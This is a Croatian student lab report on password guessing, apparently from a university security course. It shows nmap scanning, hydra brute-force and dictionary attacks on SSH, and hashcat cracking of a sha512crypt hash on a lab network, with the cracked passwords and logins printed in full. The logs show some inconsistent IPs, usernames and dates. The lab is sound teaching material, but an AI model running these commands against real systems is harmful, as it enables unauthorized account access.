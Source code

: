 # 5. laboratorijske vježbe

December 26, 2022 

### Online Password Guessing

- Otvorili smo bash shell u WSL i pingali server da provjerimo jesmo li na istoj mreži
- Instalirali smo nmap prema uputama

```bash
sudo apt-get update
sudo apt-get install nmap
```

- nmap je alat otvorenog koda za skeniranje mreže i otkrivanje potencijalnih sigurnosnih ranjivosti
- zatim smo napisali naredbu:

```bash
nmap -v 10.0.15.0/28
```

- i kao odgovor dobili informaciju da je 16 računala na mreži.

```bash
Initiating Ping Scan at 13:20
Scanning 16 hosts [2 ports/host]
Completed Ping Scan at 13:20, 1.21s elapsed (16 total hosts)
```

- ssh - Secure Shell je mrežni protokol koji korisnicima omogućuje uspostavu sigurnog komunikacijskog kanala između dva računala putem računalne mreže.

```bash
ssh Juric_marino@10.0.15.1
```

- ne znamo šifr.
- lozinka može imat 4-6 malih slova
- brute force može ispitati sve kombinacije, ali to će trajati predugo i nema smisla
- instaliramo hydru koja će ispitat tih 321254128 kombinacija.

```bash
student@DESKTOP-7Q0BASR:/mnt/c/Users/A507$ hydra -l juric_marino -x 4:6:a 10.0.15.1 -V -t 1 ssh
Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.
Hydra (http://www.thc.org/thc-hydra) starting at 2021-12-20 13:39:53
[DATA] max 1 task per 1 server, overall 1 task, 321254128 login tries (l:1/p:321254128), ~321254128 tries per task
[DATA] attacking ssh://10.0.15.5:22/
[ATTEMPT] target 10.0.15.1 - login "juric_marino" - pass "aaaa" - 1 of 321254128 [child 0] (0/0)
[ATTEMPT] target 10.0.15.1 - login "juric_marino" - pass "aaab" - 2 of 321254128 [child 0] (0/0)
...
```

- potom skinemo rječnik i možemo isprobati lozinke iz dictionaryja skraćenog na 878

```bash
wget -r -nH -np --reject "index.html*" http://a507-server.local:8080/dictionary/g3/

student@DESKTOP-7Q0BASR:/mnt/c/Users/A507$ hydra -l juric_marino -P dictionary/g3/dictionary_online.txt 10.0.15.1 -V -t 4 ssh
[ATTEMPT] target 10.0.15.5 - login "juric_marino" - pass "kajjeg" - 1 of 878 [child 0] (0/0)
[ATTEMPT] target 10.0.15.5 - login "juric_marino" - pass "kajttg" - 2 of 878 [child 1] (0/0)
[ATTEMPT] target 10.0.15.5 - login "juric_marino" - pass "kajtze" - 3 of 878 [child 2] (0/0)
```

- nakon određenog vremena smo pronašli lozinku i sada se možemo ulogirati:

```bash
[ATTEMPT] target 10.0.15.1 - login "juric_marino" - pass "jabsle" - 68 of 878 [child 1] (0/0)
[22][ssh] host: 10.0.15.1 login: zupanovic_karmen password: soicly
1 of 1 target successfully completed, 1 valid password found
Hydra (http://www.thc.org/thc-hydra) finished at 2021-12-20 13:50:13

student@DESKTOP-7Q0BASR:/mnt/c/Users/A507$ ssh juric_marino@10.0.15.1juric_marino@10.0.15.1's password:
Welcome to Ubuntu 18.04.6 LTS (GNU/Linux 5.4.0-91-generic x86_64)
Documentation: https://help.ubuntu.com
Management: https://landscape.canonical.com
Support: https://ubuntu.com/advantage
This system has been minimized by removing packages and content that are
not required on a system that users do not log into.
To restore this content, you can run the 'unminimize' command.
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.
juric_marino@host_juric_marino:~$
```

### Offline Password Guessing

- instalirali smo hashcat i otvorili folder u Visual Studio Code
- brute forceom isprobajemo sve kombinacije

```bash
sudo apt-get install hashcat
code .

student@DESKTOP-7Q0BASR:/mnt/c/Users/A507$ hashcat --force -m 1800 -a 3 hash.txt ?l?l?l?l?l?l --status --status-timer 10
hashcat (v4.0.1) starting...
```

- pokušamo s dictionary_offline.txt i pronašli smo šifru nakon 29 sekundi

```bash
hashcat --force -m 1800 -a 0 hash.txt dictionary/g3/dictionary_offline.txt --status --status-timer 10

$6$KpWlRjFxrYFIcFV2$fFeRQEO6lGDwxx4BdYspd8ORj3OjL.HqDOGPQvG2OSTa/D0R22ROj/vfTnlvYxfDbeP7b6LrOR8w5zt/en6dT/:abteve
Session..........: hashcat
Status...........: Cracked
Hash.Type........: sha512crypt $6$, SHA512 (Unix)
Hash.Target......: $6$KpWlRjFxrYFIcFV2$fFeRQEO6lGDwxx4BdYspd8ORj3OjL.H...en6dT/
Time.Started.....: Tue Dec 26 14:19:10 2021 (19 secs)
Time.Estimated...: Tue Dec 26 14:19:29 2021 (0 secs)
Guess.Base.......: File (dictionary/g3/dictionary_offline.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.Dev.#1.....: 88 H/s (9.82ms)
Recovered........: 1/1 (100.00%) Digests, 1/1 (100.00%) Salts
Progress.........: 1664/50078 (3.32%)
Rejected.........: 0/1664 (0.00%)
Restore.Point....: 1536/50078 (3.07%)
Candidates.#1....: ketata -> kklzng
HWMon.Dev.#1.....: N/A
Started: Tue Dec 26 14:19:06 2021
Stopped: Tue Dec 26 14:19:35 2021
```

- pokušamo se logirati kao Jean Doe i uspijemo:

```bash
student@DESKTOP-7Q0BASR:/mnt/c/Users/A507$ ssh jean_doe@10.0.15.1jean_doe@10.0.15.1's password:
Welcome to Ubuntu 18.04.6 LTS (GNU/Linux 5.4.0-91-generic x86_64)
jean_doe@host_juric_marino:~$ whoami
jean_doe
```